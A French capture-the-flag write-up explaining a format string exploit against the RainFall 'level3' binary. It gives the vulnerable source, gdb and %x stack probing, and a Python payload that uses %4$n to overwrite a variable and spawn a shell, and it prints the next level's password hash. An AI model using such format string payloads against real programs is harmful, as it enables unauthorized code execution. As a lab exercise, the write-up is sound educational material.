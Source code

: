# Exploitation du niveau 3 : Format String Attack

Dans ce document, je vais expliquer comment j'ai exploité une vulnérabilité de format string dans le programme `level3` pour obtenir un shell interactif. Le processus a impliqué plusieurs étapes, telles que la découverte de l'adresse de la variable `m`, l'injection de cette adresse en Little Endian et l'utilisation de la vulnérabilité pour contrôler l'exécution du programme.

## 1. **Comprendre le programme**
Le programme `level3` contient une vulnérabilité de type format string qui permet d'injecter des données arbitraires dans le programme via la fonction `printf`. Le but de l'exploitation était de manipuler la variable `m` pour exécuter une commande `system("/bin/sh")` et obtenir un shell.

### Code source du programme :
```c
void v(void)
{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}

void main(void)
{
  v();
  return;
}

```


Dans ce code, printf utilise une chaîne de format fournie par l'utilisateur. Si la valeur de m atteint 0x40, le programme exécute /bin/sh, ce qui nous permet d'obtenir un shell.

## 2. Trouver l'adresse de m
L'adresse de la variable m doit être trouvée afin de pouvoir manipuler sa valeur. Pour cela, j'ai utilisé une attaque de format string pour inspecter la pile et trouver où se situe m.

Étapes pour trouver l'adresse de m :
Utiliser gdb pour analyser la pile : J'ai exécuté le programme dans GDB pour analyser les arguments passés à printf et trouver l'adresse de m.
```bash
gdb
Copy code
break v
run
info frame
```

### Exploiter le format string : J'ai utilisé la commande suivante pour afficher les valeurs dans la pile avec %x :

```bash
level3@RainFall:~$ (python -c "print('AAAAA' + '%x.' * 5)"; cat -) | ./level3
AAAAA200.b7fd1ac0.b7ff37d0.41414141.2e782541.
```
Cette commande affiche les valeurs hexadécimales présentes sur la pile. J'ai pu observer que "AAAAA" qui en hexadecimal correspond a 414414141 apparaissait en 4ème position dans la sortie.
Donc le debut de notre format string est la 4eme valeur de la stack

### 3. Injection de l'adresse de m en Little Endian
Une fois l'adresse de m obtenue, il fallait l'injecter dans le programme. Le format string permet d'écrire des valeurs dans des adresses mémoire via %n. Cependant, printf attend que l'adresse soit injectée dans la pile en Little Endian (ordre des octets inversé).

L'adresse 0x804988c doit être convertie en Little Endian pour l'injecter correctement dans la pile. Cela donne \x8c\x98\x04\x08.

Exemple de conversion en Little Endian :
L'adresse de m : 0x804988c
En Little Endian : \x8c\x98\x04\x08


### 4. Construire le payload final
Maintenant que nous avons l'adresse de m et que nous savons où elle se trouve dans la pile, il faut créer un payload qui écrit dans cette adresse. Le payload doit contenir l'adresse de m en Little Endian et un format %4$n pour écrire la valeur à l'adresse de m.

Payload final :
bash
Copy code
(python -c "print('\x8c\x98\x04\x08' + 'a' * 60 + '%4$n')"; cat -) | ./level3
Explication du payload :
'\x8c\x98\x04\x08' : L'adresse de m en Little Endian.
'a' * 60 : 60 caractères 'a' pour faire le padding nécessaire et aligner la pile.
'%4$n' : %4$n écrit la valeur (le nombre de caractères imprimés) à l'adresse située en 4ème position de la pile (l'adresse de m).
Résultat du payload :
Ce payload permet de faire en sorte que la valeur 60 (le nombre de caractères avant %4$n) soit écrite à l'adresse 0x804988c, modifiant ainsi la valeur de m.

### 5. Exécution du shell
Une fois que la valeur de m est modifiée pour être égale à 0x40, la condition if (m == 0x40) dans le programme est satisfaite. Le programme exécute alors la commande system("/bin/sh"), ce qui nous donne un shell interactif.

### Résultat final :
```bash
level3@RainFall:~$ (python -c 'print("\x8c\x98\x04\x08" + "a" * 60 + "%4$n")'; cat -) | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
6. Conclusion
Grâce à l'attaque de format string, j'ai pu obtenir l'adresse de la variable m, manipuler cette adresse pour y écrire une valeur spécifique, et finalement obtenir un shell. Ce type d'attaque est très puissant et démontre l'importance de valider correctement les entrées utilisateur pour éviter les vulnérabilités de type format string.